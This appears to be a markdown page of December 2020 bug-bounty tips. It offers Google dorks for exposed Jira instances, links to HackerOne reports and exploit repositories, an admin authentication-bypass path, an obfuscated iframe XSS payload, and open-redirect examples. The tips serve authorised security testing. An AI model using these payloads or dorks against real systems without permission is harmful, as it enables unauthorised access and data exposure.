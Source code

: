 # December-2020 Bug Bounty Tips

📅 01-Dec-2020
## Misconfigured Jira Instance Discloses Sensitive Information
`site:http://atlassian.net "company"`

## Gitlab H1 Reports from [yvvdwf](https://hackerone.com/yvvdwf?type=user)
- https://hackerone.com/reports/950190
- https://hackerone.com/reports/806571
- https://hackerone.com/reports/824689
- https://hackerone.com/reports/831962

## Admin Auth Bypass
```http
GET /admin%2ejsp%3b.png
```
Was able to turn a number of post-auth SQL injections into pre-auth vulns.

## Dump Elastic Search Instances
***https://github.com/Ibonok/elastic_scan***

## IBM Maximo Asset Management is vulnerable to Information Disclosure via XXE Vulnerability (CVE-2020-4463)
***https://github.com/Ibonok/CVE-2020-4463***

## .git Folder Files Access Get Full File List With .git/index File.
***https://twitter.com/Tismayil1/status/1333423100239769600?s=20***

## XSS
```js
<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
```

## Open redirect
```text
?redirect=/admin/
Goes to: http://website.com/admin/

?redirect=@google.com
Goes to: website.com@google.com
```
## Jira Dork
### Google Dork
`inurl:/ContactAdministrators!default.jspa`
